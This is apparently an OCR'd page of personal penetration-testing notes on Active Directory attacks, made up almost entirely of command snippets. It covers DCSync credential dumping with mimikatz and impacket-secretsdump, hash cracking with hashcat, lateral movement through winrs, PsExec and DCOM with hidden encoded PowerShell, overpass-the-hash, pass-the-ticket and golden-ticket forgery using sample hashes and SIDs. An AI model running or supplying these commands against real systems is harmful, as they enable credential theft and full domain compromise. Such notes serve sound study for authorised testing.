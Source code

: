 ### DCSync Attack

```jsx
**//domain admin => dc**
//get dave's ntlm when current account is domain admin group
lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\administrator

hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user dave fake.com/bob:"password\!"@192.168.1.1
```

### Lateral Movement

Access

```jsx
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAA...
./PsExec64.exe -i  \\FILES04 -u corp\jen -p password! cmd
```

Overpass the hash

```jsx
sekurlsa::logonpasswords
sekurlsa::pth /user:dave /domain:fake.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
klist
net use \\file04
klist
.\PsExec.exe \\files04 cmd
```

Pass the Ticket

```jsx
sekurlsa::tickets /export
dir *.kirbi
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
klist
ls \\web04\backup
```

DCOM

```jsx
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4","7")
```

### Golden Ticket

```jsx
//mimikatz  - get NTLM of krbtgt and sid
lsadump::lsa /patch
//clean ticket
kerberos::purge
kerberos::golden /user:jen /domain:fake.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
//access
PsExec.exe \\dc1 cmd.exe
```
